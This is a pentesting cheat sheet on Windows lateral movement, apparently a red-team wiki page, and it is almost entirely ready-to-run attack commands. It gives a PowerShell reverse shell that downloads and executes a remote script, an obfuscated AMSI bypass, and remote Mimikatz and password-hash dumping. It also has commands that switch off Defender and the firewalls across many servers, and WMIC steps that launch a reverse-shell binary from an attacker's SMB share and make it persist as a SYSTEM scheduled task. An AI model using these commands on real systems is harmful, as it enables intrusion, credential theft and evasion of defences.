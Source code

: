 # Lateral Movement

## PowerShell Remoting

{% hint style="info" %}
Requires Administrative access and target to have WinRM on port 5985 / 5986 to be open
{% endhint %}

* One-to-One
* Interactive
* Stateful
* Executes in a new process (wsmprovhost)
* Execute command on multiple systems at once
* Runs background jobs
* &#x20;`-Credential` parameter can be used to pass credentials

```bash
#Enable PowerShell Remoting on local system (Requires elevated privileges)
Enable-PSRemoting

# Create new PSSession
New-PSSession -Computer Srv01.Security.local

# Connect to PSSession
Enter-PSSession -Computer Srv01.Security.local

# Store session as variable
$Session = New-PSSession -Computer Srv01.Security.local
```

If you have sessions stored as variables then commands with the `-Computername` parameter can be replaced with `-Session $session`.

```powershell
Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'

# Run locally loaded functions on target system
Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}

# Load script into remote session
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session

# Reverse shell
Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

#Bypass AMSI
Invoke-Command -session $Session -scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}
```

### Multiple Systems

```powershell
# Execute commands on multiple systems
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content c:\Serverlist.txt) 

# Execute scripts on multiple systems
Invoke-Command –FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content c:\Serverlist.txt)

# Execute functions on multiple systems
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content c:\Serverlist.txt)

# Bypass AMSI on multiple systems
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} -ComputerName (Get-Content c:\Serverlist.txt)
```

### Disabling Defenses

```powershell
# Turns off Defender, sets an exclusion path

Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`}
```

```powershell
# Turns off all firewall profiles
Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}
```

```powershell
# Turns off Defender and Firewall on multiple systems

Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`
Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}`
-ComputerName (Get-Content c:\Serverlist.txt)
```

## WMIC

Executing `calc.exe` on remote system

```
wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c calc.exe"
```

Executing reverse shell on remote system from a SMB share hosted on attackers system

```
wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c \\10.10.10.200\Share\reverse.exe"
```

Setting up persistence with `schtasks` on a remote system to execute a reverse shell every minute/

```
wmic /node:10.10.10.5 /user:moe process call create "schtasks /create /sc minute /mo 1 /tn "Persistence" /tr \\10.10.10.200\Share\reverse.exe /ru "SYSTEM""
```


